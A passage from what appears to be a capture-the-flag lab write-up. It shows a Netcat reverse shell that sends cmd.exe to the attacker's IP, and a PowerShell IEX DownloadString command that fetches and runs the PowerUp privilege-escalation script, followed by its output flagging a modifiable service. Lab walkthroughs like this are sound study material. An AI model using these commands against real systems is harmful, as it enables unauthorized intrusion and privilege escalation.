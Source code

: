 **Note**: I have to set up a Python Server and serve the nc.exe file from my machine.

Now that the `nc` program is on the target machine, I can launch a reverse shell. I will edit the python script a second time and change the command cmd as follows:

{{< highlight html >}}
{ string cmd = "/c C:/Windows/Temp/nc.exe 10.10.14.12 4321 -e cmd.exe";
{{< /highlight >}}

Running the script after having launched a netcat listener on port 4321, I can see the connection coming back:

{{< highlight html >}}
nc -nlvp 4321
listening on [any] 4321 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.180] 49703
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
{{< /highlight >}}

**->** I am successfully logged in as **iis apppool\defaultapppool**!


# Privilege Escalation


For the PrivEsc phase I will rely on the PowerUp script.

>PowerUp is a PowerShell tool to assist with local privilege escalation on Windows systems. It contains several methods to identify and abuse vulnerable services, as well as DLL hijacking opportunities, vulnerable registry settings, and escalation opportunities.

I will serve the script from my machine and execute it from a PowerShell command line:

{{< highlight html >}}
PS C:\windows\system32\inetsrv> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12:8080/PowerUp.ps1')

PS C:\windows\system32\inetsrv> Invoke-AllChecks
Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...


[*] Checking service executable and argument permissions...


ServiceName                     : UsoSvc
Path                            : c:\windows\temp\rev.exe
ModifiableFile                  : C:\windows\temp\rev.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : IIS APPPOOL\DefaultAppPool
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'UsoSvc'
CanRestart                      : True

